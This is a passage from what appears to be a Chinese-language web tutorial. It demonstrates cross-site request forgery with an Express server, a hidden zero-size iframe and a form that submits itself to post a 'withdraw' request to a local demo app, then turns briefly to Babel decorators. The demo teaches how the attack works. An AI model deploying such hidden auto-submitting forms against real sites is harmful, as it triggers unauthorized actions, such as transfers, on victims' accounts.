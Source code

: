 ```
</body>

```

###### 7.3.3.4 非信任网站

```
let express = require('express');
let path = require('path');
let app = express();
app.set('view engine','ejs');
app.set('views',path.resolve('views'));
app.engine('html',require('ejs').__express);

app.get('/',function(req,res){
  res.render('csrf.html');
});
app.get('/form',function(req,res){
  res.render('form.html');
});

app.listen(4000);

```

###### 7.3.3.5 csrf

```
<body>
    <img src="https://www.baidu.com/img/bd_logo1.png"/>
    <iframe src="/form" frameborder="0" style="width:0;height:0"></iframe>
</body>

```

###### 7.3.3.6 form

```
<body>
        <form id="myform" action="http://localhost:3000/withdraw" method="POST">
            <input type="text" name="money" id="money" value="10">
        </form>
        <script>
                setTimeout(function(){
                   document.getElementById('myform').submit();
                },100);
            </script>
</body>

```

##### 7.3.4 支持decorators

-   [babel-plugin-proposal-decorators](https://babeljs.io/docs/en/babel-plugin-proposal-decorators)
    